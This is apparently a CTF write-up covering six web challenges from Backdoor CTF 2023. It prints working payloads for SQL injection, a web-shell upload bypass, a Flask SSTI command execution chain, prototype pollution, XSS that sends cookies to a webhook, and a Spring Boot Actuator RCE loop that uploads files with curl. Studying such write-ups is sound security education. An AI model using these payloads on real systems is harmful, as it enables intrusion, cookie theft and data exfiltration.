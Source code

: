 ```yaml
---
layout: post
title: Backdoor CTF 2023 Web Challenges
author: m0z
categories: [Jeopardy]
tags: [ctf,web]
---
```


## web/too-many-admins
Downloading the source, we can see this is a PHP challenge. Just a single PHP file and the flag is located in the database (dump.sql).

I immediately noticed the SQL injection here:

```php
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
```
Trying a simple blind SQLi payload `1'or'1'='1` on the `user` GET parameter reveals the entire database (limited to `id`, `user` and `password`).
I immediately noticed many of the hashes were [Magic Hashes](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc).

This is a hash which begins with `0e` followed by a string of numerical values. PHP has a difficult time with these hashes because it evaluates them to be loosely equal to zero due to PHP treating `e` as a symbol for an exponent.
So I wrote up a script to try `240610708` as the password for each admin user (there are 500).

While this script was running, I realized that the SQL injection vulnerability would actually allow us to dump the flag if we use a UNION query. Since the flag is stored in the `bio` column, we can simply use `1' UNION SELECT null, bio, null FROM users-- -` to dump the flag.

In the end, both techniques worked. Judging from the flag, the intended solution was actually the magic hash approach.

`flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/php-sucks
Opening the source for this challenge we notice the flag is a file on the server this time. With only a file upload, it is pretty clear that we will require an arbitrary file upload vulnerability to read the flag.

All the PHP code was in a single line so the first thing I did was paste this into a PHP beautifier. This made it easier to see what was happening in the code.

The implementation looked pretty secure. However, there was one line in particular that I didn't like:
```php
$fileName=strtok($fileName,chr(7841151584512418084));
```
This modified the filename; splitting it by a token and taking the first instance of the resulting array. What's strange is that `chr(7841151584512418084)` doesn't correspond to a normal character. I decided to run this PHP code and see what symbol it corresponded to and was pleasantly surprised that it was `$`.

So, we can upload a file named `shell.php$.jpg` and we will pass the initial file extension checks, ensure that the mimetype check is also satisfied. Then, it will be later renamed to `shell.php` by the aforementioned call to `strtok()`.

So uploading an image containing PHP code somewhere inside it (which is still a valid image) will work. After uploading, I found the flag and ran the command to view it `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`.

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

## web/Unintelligible-Chatbot
This was the first sourceless challenge on the CTF. I pretty quickly tested for most obvious injection types include XSS and SSTI. Our SSTI payload seemed to work (`\{\{7*7\}\}` => `49`).

From initial checks, it seems to be blocking any SSTI payloads with `[]` or `.` which means we will have a difficult time accessing dictionary values. If you're used to SSTI challenges then you'll know flask has a bunch of useful approaches to handle this including the `|attr()` method.

I'd love to elaborate more on this solution but this is one of the first things I tried and it worked. 
```python
\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()\}\}
```
`flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war
I felt like this was among the more "guessier" of challenges. The description mentioned letters being split up amongst various routes. So I decided to fuzz for all printable characters and found a response at `/K`. I then wrote the following script to recover the other characters:

```python
import requests
import string

o = ""

while True:
    for s in string.printable:
        r = requests.get(f"http://34.132.132.69:8005/{o}{s}")
        if "wrong path" not in r.text:
            o += s
            print(o)
            break

```

Eventually after getting `Kur0s4k1` we see the following message:

`Ohhhh myy Goddd!! you finally did it!! you are worthy, my name Kur0s4k1`

I then logged in with username `Kur0s4k1` and password `1"or"1"="1` which worked.

`flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## web/armoured-notes
This was probably my favourite challenge on the CTF. We open the source code and see the flag is stored as a cookie on the admin bot. This means we will likely require XSS to solve this challenge.

However, we cannot create notes on this application as we are not an administrator. I pretty quickly noticed the dodgy usage of `Object.assign()` in the `duplicate()` method:

```javascript
export  function  duplicate(body) {
	let  obj={}
	let  keys  =  Object.keys(body);
	keys.forEach((key) => {
		if(key  !==  "isAdmin")
		obj[key]=body[key];
	})
	return  obj;
}
```

After seeing the hardcoded check for `isAdmin`, I realized that if we could add this as a field to our note when creating it (and set it to true), we could successfully overwrite the default value. This can be done using a prototype pollution.

```json
POST /create

{
	"uname":"John",
	"pass":"Doe",
	"__proto__": {
		"isAdmin": true
	},
	"message":"Your note..."
}
```

This successfully bypassed the check and created our note. I got stuck at this point for a while until I eventually ran `npm audit` and discovered there was a public XSS exploit available for ViteJS.
All the information needed to exploit this can be found [here](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title).

Final payload which I sent to the admin bot:
```
http://34.132.132.69:8001/posts/6580526999d634eec4c73707/?"></script><script>window.location.href=`https://webhook.site/77b428d2-33c2-437f-8425-9ef657cdacea/${btoa(document.cookie)}`</script>
```

`flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`

## web/Rocket Explorer
Credit to Protag (@0daystolive) for immediately noticing that this was vulnerable to an exposed Spring Boot Actuator ([exploit here](https://github.com/spaceraccoon/spring-boot-actuator-h2-rce)). The main challenge here was due to the server consistently crashing.

I had tried to get a reverse shell for a long time but this was not working. I was able to get a pingback but had no idea where the flag was located on the server and wasn't getting a successful backconnect from the shell payload.

I ended up having to guess various flag locations and spam requests to get the flag. I wrote this bash script to guess `/flag` which successfully worked.

```bash
while true
do
        curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl -T /flag <webhook>\');\"}' 'http://34.173.50.60:8080/actuator/env'
        curl -X 'POST' -H 'Content-Type: application/json' 'http://34.173.50.60:8080/actuator/restart'
done
```

`flag{sp4c3_r4cc00ns_rc3}`
